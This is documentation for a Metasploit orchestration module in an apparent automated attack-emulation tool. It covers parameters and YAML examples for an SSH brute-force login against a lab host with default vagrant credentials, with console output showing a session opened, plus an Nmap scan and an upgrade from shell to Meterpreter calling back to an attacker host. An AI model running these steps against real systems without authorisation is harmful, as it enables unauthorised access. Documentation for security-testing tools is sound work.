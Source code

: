 
## Description
Module orchestrates [Metasploit Framework](https://github.com/rapid7/metasploit-framework).

## Prerequisites
Metasploit must be accessible from Worker it will be executed on.

## Input parameters

=== "Simple"

    ### `module_name`
    Name of Metasploit module.
    
    | Name          | Type   | Required | Default value | Example value                        |
    |---------------|--------|----------|---------------|--------------------------------------|
    | `module_name` | string | &check;  |               | `unix/irc/unreal_ircd_3281_backdoor` |
    
    ### `datastore`
    Datastore options (variables) to use for the execution.  
    Basically an equivalent to `set OPTION value`.
    
    | Name        | Type   | Required | Default value | Example value            |
    |-------------|--------|----------|---------------|--------------------------|
    | `datastore` | object | &cross;  |               | `{"RHOST": "127.0.0.1"}` |

=== "Custom"

    ### `commands`
    Custom set of commands to execute in an order in the Metasploit console.
    
    | Name       | Type            | Required | Default value | Example value                     |
    |------------|-----------------|----------|---------------|-----------------------------------|
    | `commands` | array\[string\] | &check;  |               | `["use multi/handler", "run -z"]` |

### `timeout`
Number of seconds to wait before the module execution will be terminated.

| Name      | Type    | Required | Default value | Example value |
|-----------|---------|----------|---------------|---------------|
| `timeout` | integer | &cross;  |               | `300`         |

## Examples

### SSH login module
Input:
```yaml
my-step:
  module: metasploit
  arguments:
    module_name: scanner/ssh/ssh_login
    datastore:
      RHOSTS: {{ target }}
      USERNAME: vagrant
      PASSWORD: vagrant

```

Output:
```json
{
  "result": "ok", 
  "output": "VERBOSE => True\nBRUTEFORCE_SPEED => 5\nBLANK_PASSWORDS => false\nUSER_AS_PASS => false\nDB_ALL_CREDS => false\nDB_ALL_USERS => false\nDB_ALL_PASS => false\nDB_SKIP_EXISTING => none\nSTOP_ON_SUCCESS => false\nREMOVE_USER_FILE => false\nREMOVE_PASS_FILE => false\nREMOVE_USERPASS_FILE => false\nTRANSITION_DELAY => 0\nMaxGuessesPerService => 0\nMaxMinutesPerService => 0\nMaxGuessesPerUser => 0\nCreateSession => true\nAutoVerifySession => true\nTHREADS => 1\nShowProgress => true\nShowProgressPercent => 10\nRPORT => 22\nSSH_IDENT => SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3\nSSH_TIMEOUT => 30\nSSH_DEBUG => false\nGatherProof => true\nRHOSTS => 192.168.56.51\nUSERNAME => vagrant\nPASSWORD => vagrant\nDisablePayloadHandler => True\n[*] 192.168.56.51:22 - Starting bruteforce\n[+] 192.168.56.51:22 - Success: 'vagrant:vagrant' 'uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant) Linux vagrant-ubuntu-trusty-64 3.13.0-170-generic #220-Ubuntu SMP Thu May 9 12:40:49 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux '\n[!] No active DB -- Credential data will not be saved!\n[*] SSH session 1 opened (192.168.56.50:36169 -> 192.168.56.51:22) at 2022-08-04 17:03:56 +0200\n[*] Scanned 1 of 1 hosts (100% complete)\n[*] Auxiliary module execution completed\n",
  "serialized_output": {"session_id": 1} 
}
```

### Running Nmap
```yaml
my-step:
  module: metasploit
  arguments:
    commands:
      - db_nmap --top-ports 100 {{ target }}

```

### Upgrade shell session
```yaml
my-step:
  module: metasploit
  arguments:
    module_name: multi/manage/shell_to_meterpreter
    datastore:
      LHOST: {{ attacker_host }}
      SESSION: 1

```

## Troubleshooting
So far so good.

!!! warning "Session types"

    Metasploit Framework supports two types of sessions.
    
    The first is a shell session, you can run any shell commands you want.
    
    The second is called Meterpreter. It allows you to use it's provided commands, such as `ifconfig` or `sysinfo`. 
    To run a command in a shell, you need to use the `execute` command with the `-f`, `-i`, and `-a` options (`execute -f <command> -i -a <arguments>`).
    In some cases, the command execution can fail. Before creating a plan, make sure it works for your target system/exploit.

## Output serialization
Only the session ID is serialized.

`serialized_output` contains:

| Parameter name | Parameter description                        |
|----------------|----------------------------------------------|
| `session_id`   | ID of the created session (only if created). |

